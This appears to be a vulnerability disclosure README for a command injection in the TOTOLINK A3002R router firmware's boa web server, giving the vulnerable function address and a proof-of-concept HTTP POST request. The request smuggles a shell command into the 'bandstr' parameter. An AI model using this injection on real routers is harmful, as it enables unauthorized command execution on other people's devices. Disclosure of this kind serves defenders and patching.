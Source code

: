# totolink_A3002R_remote_command_exec
**description**: a Remote-Command-Execution  in /bin/boa on totolink A3002R-V4.0.0-B20230531.1404 via parameter "bandstr"


## Firmware
**brand**:totolink   

**product**:A3002R-V4 

**version**:V4.0.0-B20230531.1404

The firmware can be downloaded from this [website][1]

## detail
**addr**:0045a2a4

**function**:FUN_0045a1f8

Using ghidra we can know that the post parameter "bandstr" will be sprintf as the second input parameter and result the command injection and the realte action is  formMapDelDevice
![alt text](./img/action.png)


![alt text](./img/image-2.png)


# poc
burp suite change the packet as follow
```
POST /boafrm/formMapDelDevice HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 163

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/multi_ap_popup_client_details.htm

Upgrade-Insecure-Requests: 1





sessionCheck=eac3d25a37ff88c5d813f312586baec9&submit-url=%2Fmulti_ap_popup_client_details.htm&macstr=123&clientoff=no&bandstr=123;echo%20123456%20> /tmp/rec1.txt
```
![alt text](./img/poc.png)

[1]:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/258/ids/36.html
